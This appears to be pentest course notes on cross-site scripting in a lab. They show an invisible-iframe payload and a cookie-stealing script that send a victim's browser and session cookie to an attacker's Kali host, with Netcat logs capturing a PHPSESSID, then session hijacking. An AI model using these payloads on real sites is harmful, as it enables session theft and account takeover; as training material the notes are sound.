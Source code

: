 If the available session cookies all support the HttpOnly feature they can't be retrieved using JavaScript through our attack vector. We'll need to find a new angle.

See [How To Craft An XSS Payload To Create An Admin User In WordPress](https://shift8web.ca/2018/01/craft-xss-payload-create-admin-user-in-wordpress-user/).

### Content Injection
XSS vulnerabilities are often used to deliver client-side attacks as they allow for the redirection of a victim’s browser to a location of the attacker’s choosing. A stealthy alternative to a redirect is to inject an invisible iframe into our XSS payload.
```
<iframe src=http://<our_KALI_IP>/report height=”0” width=”0”></iframe>
```
Once this payload has been submitted, any user that visits the page will connect back to our attack machine. To test this, we can create a Netcat listener on our attack machine on port 80, and refresh the Feedback page.
```
kali@kali:~$ sudo nc -nvlp 80
...
GET /report HTTP/1.1
Host: 10.11.0.4
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.11.0.22/feedback.php
...
```
We could take this farther and redirect the victim browser to a client-side attack or to an information gathering script.

To do this, we would want to first capture the victim's User-Agent header to help identify the kind of browser they are using. In the above example, we used Netcat because it shows us the full request sent from the browser, including the User-Agent header. The Apache HTTP Server will also capture the User-Agent header by default in **`/var/log/apache2/access.log`**.

### Stealing Cookies and Session Information
We can also use XSS to steal cookies and session information if the application uses an insecure session management configuration. If we can steal an authenticated user's cookie, we could masquerade as that user within the target web site.

1. Implement a cookie stealer XSS payload:
    ```javascript
    <script>new Image().src="http://<KALI_IP>/cool.jpg?output="+document.cookie;</script>
    ```
2. Submit this payload to the application and wait for an authenticated user to access the application so we can steal the `PHPSESSID` cookie.
  ```sh
  kali@kali:~$ sudo nc -nvlp 80
  listening on [any] 80 ...
  connect to [10.11.0.4] from (UNKNOWN) [10.11.0.22] 53824
  GET /cool.jpg?output=PHPSESSID=ua19spmd8i3t1l9acl9m2tfi76 HTTP/1.1
  Referer: http://127.0.0.1/admin.php
  User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0
  ...
  ```
3. Now that we have the authenticated session ID, we need to set it in our browser. We can use the [Cookie-Editor](https://addons.mozilla.org/en-US/firefox/addon/cookie-editor/) browser add-on to easily set and manipulate cookies.
![image](https://user-images.githubusercontent.com/48137513/206016732-dd884e21-6582-45e5-b2ff-62d227b5e7cd.png)
